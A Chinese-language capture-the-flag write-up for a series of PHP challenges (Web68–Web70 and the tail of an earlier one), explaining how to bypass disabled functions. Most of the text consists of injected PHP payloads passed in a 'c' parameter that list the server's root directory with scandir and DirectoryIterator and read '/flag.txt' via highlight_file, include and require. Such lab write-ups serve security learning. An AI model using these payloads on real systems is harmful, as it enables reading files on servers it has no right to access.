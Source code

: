 ![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/ccc5c22db58d3e96410ecac95ce99018.png)

解题思路：这题和上面的题一样，但是如果你按上一题我的方法是不行的，因为c=print\_r(scandir("/"));被禁用了。但是呢我们不止这一个可以查看根目录文件。

c=var\_dump(scandir('/'));

c=$a=new DirectoryIterator("glob:///\*");foreach($a as $f){echo($f-\>\_\_toString().' ');}exit(0);

这两个都是可以的。然后c=highlight\_file("/falg.txt");便可以得到flag。

![image.png](https://img07.mifile.cn/v1/MI_542ED8B1722DC/0d1849df6b5411341766d29a5aa2d165.png)

## Web68：

![image.png](https://img06.mifile.cn/v1/MI_542ED8B1722DC/29b8f42cd4cab7454dd431cb1b663b90.png)

解题思路：该源码表明，highlight\_file()被禁用所以源码无法查看直接报错。

通过以下的方式查看根目录。

c=var\_dump(scandir('/'));

c=$a=new DirectoryIterator("glob:///\*");foreach($a as $f){echo($f-\>\_\_toString().' ');}exit(0);

然后通过以下方式可以查看根目录文件。

c=highlight\_file('/flag.txt');

c=include('/flag.txt');

c=require('/flag.txt');

c=require\_once('/flag.txt');

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/0965c7a2295ab0db2cd966524b4ae3e8.png)

## Web69：

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/90f892ba38aab6147f29470de22eb209.png)

解题思路：发现c=var\_dump(scandir('/'));被禁用，可以通过以下发生查看根目录。

c=var\_export(scandir('/'));

c=$a=new DirectoryIterator("glob:///\*");foreach($a as $f){echo($f-\>\_\_toString().' ');}exit(0);

然后通过c=include("/flag.txt");便可以得到flag。

![image.png](https://img08.mifile.cn/v1/MI_542ED8B1722DC/48667a5330093224f93f444c4d83b4e6.png)

## Web70：

![image.png](https://img03.mifile.cn/v1/MI_542ED8B1722DC/c3589782d8e638d25f73c32ef38f053c.png)

解题思路：c=var\_export(scandir('/')); 然后c=include("/flag.txt");
